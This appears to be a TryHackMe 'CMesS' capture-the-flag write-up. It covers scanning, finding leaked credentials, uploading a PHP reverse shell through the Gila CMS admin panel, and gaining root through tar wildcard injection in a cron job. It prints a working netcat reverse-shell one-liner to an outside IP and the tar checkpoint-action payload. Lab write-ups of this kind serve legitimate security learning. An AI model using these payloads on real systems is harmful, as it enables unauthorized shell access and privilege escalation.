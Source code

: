 
[TryHackMe Link](https://tryhackme.com/room/cmess){ .md-button }

!!! example "Description"

    <p id="desc" style="font-size:15px"></p>

## <b>Scanning</b>

* Assigned IP address: &nbsp; <b id="ip" style="color:purple"></b>
  
* Open Ports: 

| <p style="font-size:14px; color: black">PORT</p>      | <p style="font-size:14px; color: black">SERVICE</p> |  <p style="font-size:14px; color: black">DESCRIPTION                          |
| :---------: | :---------: | :----------------------------------: |
| <p id="p1" style="font-size:14px; color: purple"></p>      | <p id="s1" style="font-size:14px; color: purple"></p>  |<p id="d1" style="font-size:14px; color: purple"></p>   |
| <p id="p2" style="font-size:14px;  color: purple"></p>     | <p id="s2" style="font-size:14px; color: purple"></p>  |<p id="d2" style="font-size:14px; color: purple"></p> |


* Nmap Report:
  ```s linenums="1" hl_lines="6 11"
    Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-05 13:51 EST
    Nmap scan report for 10.10.254.242
    Host is up (0.35s latency).
    Not shown: 998 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
    |   256 21c36e318b85228a6d72868fae64662b (ECDSA)
    |_  256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
    |_http-generator: Gila CMS
    | http-robots.txt: 3 disallowed entries 
    |_/src/ /themes/ /lib/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
    TCP/IP fingerprint:
    OS:SCAN(V=7.93%E=4%D=1/5%OT=22%CT=1%CU=33367%PV=Y%DS=5%DC=I%G=Y%TM=65984FFA
    OS:%P=aarch64-unknown-linux-gnu)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=
    OS:8)SEQ(SP=106%GCD=1%ISR=10C%TI=Z%TS=8)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%II=I%
    OS:TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5
    OS:=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=
    OS:68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%
    OS:A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0
    OS:%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S
    OS:=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R
    OS:=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N
    OS:%T=40%CD=S)

    Network Distance: 5 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 45.96 seconds

  ```

## <b>Enumeration</b>

At Port 80, following website was hosted with Gila CMS. 

<img id="image1" />

The site was running an older version, exposing some vulnerabilities that were present in searchsploit as shown below. 

<img id="image2" />

As suggested by website, I added 

```s
10.10.254.242 cmess.thm
```

to the **/etc/hosts** file. I was highly anticipating additional subdomains or Vhosts within the directory. Later, I discovered the **dev.cmess.thm** domain. This particular webpage revealed sensitive credentials for a user named `Andre`.

<img id="image3" />

## <b>Initial Access</b>

Initially attempting SSH access with the given credentials were unsuccessful. So, I thought the credentials might apply to the CMS login page, and indeed, they did. Accessing the admin dashboard at `http://cmess.thm/admin`, I attempted to inject a reverse shell through the `rev.png` file (since, image assets file were available), but it failed to parse correctly. 

<img id="image4" />

So, I placed a typical reverse-shell.php file in **content -> filemanger -> assets** folder, successfully gaining the initial foothold.

```
http://cmess.thm/assets/reverse-shell.php
``` 

<img id="image5" />

Quickly, I netcated (I mean, if there is a word like that :P) the `linpeas.sh` script, to identify potential leads. Surprisngly, a cron job was running every 2 minutes and a password backup file for andre were discovered. 

<img id="image7" />

```
www-data@cmess:/tmp$ cat /opt/.password.bak
andres backup password
{--UQREDACTED6--}
www-data@cmess:/tmp$
```

The backup file contained the SSH password for Andre, and this time, the login succeeded.

<img id="image8" />

## <b>Privilege Escalation</b>

I saw a note on backups folder in /home/andre.

```
andre@cmess:~$ cat backup/note 
Note to self.
Anything in here will be backed up!
```

Recalling the earlier enumeration of a cron job executing the **tar** command, I explored the possibility of utilising a tar wildcard injection attack. 

<img id="image6" />

!!! info "TAR wilcard injection"
    <span>It is a security vulnerability where an attacker manipulates a tar command's user-input, exploiting wildcards to include unintended files and potentially leading to unauthorized access or code execution.
    Read more at: <a href="https://medium.com/@cybenfolland/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa" target="_blank">Linux Privilege Escalation: Wildcards with tar</a></span>

This led me to execute my reverse shell from **rev.sh** in the same folder. 

!!! warning "Reverse shell Payload"
    ```sh
    echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.17.3.217 5432 >/tmp/f" > rev.sh
    ```

!!! danger "TAR wilcard Injection"
    ```sh
    echo "" > '--checkpoint=1'
    echo "" > '--checkpoint-action=exec=sh rev.sh'  
    ```

After waiting for 2 minutes, I got shell and located the root flag and its password hash.

<img id="image9" />



<script>

// JSON object
const data = {
    "desc": "Can you root this Gila CMS box?",
    "ip":  "10.10.254.242",
    "ports": "22/tcp,open,OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux protocol 2.0);80/tcp,open,Apache httpd 2.4.18 ((Ubuntu))",
    "difficulty":"medium",
    "id": "6"
}


function updateHTML() {

    const keys = Object.keys(data);
    const values = Object.values(data);

    for(var z=0; z < keys.length; z++){

        if(keys[z] === "ports"){
            const ports = data.ports.split(';');
            for(var i = 0; i < ports.length; i++){
                document.getElementById("p"+(i+1)).innerHTML = ports[i].split(',')[0].toUpperCase();
                document.getElementById("s"+(i+1)).innerHTML = ports[i].split(',')[1].toUpperCase();
                document.getElementById("d"+(i+1)).innerHTML = ports[i].split(',')[2];
            }
        }
        else{
            try{
            document.getElementById(keys[z]).innerHTML = values[z];
            }
            catch(error){
                console.log(values[z]);
            }
        }
    }

    // replace the values with your specific filenames and number of images and img tags
    const numImgTags = document.getElementsByTagName('img').length;

    for (let i = 1; i <= numImgTags; i++) {
    const imgTag = document.getElementById('image' + i);
        if (imgTag) {
            imgTag.src = '../images/'+data.difficulty[0]+data.id+'-image' + i + '.png';
        }
    }


}

updateHTML();
</script>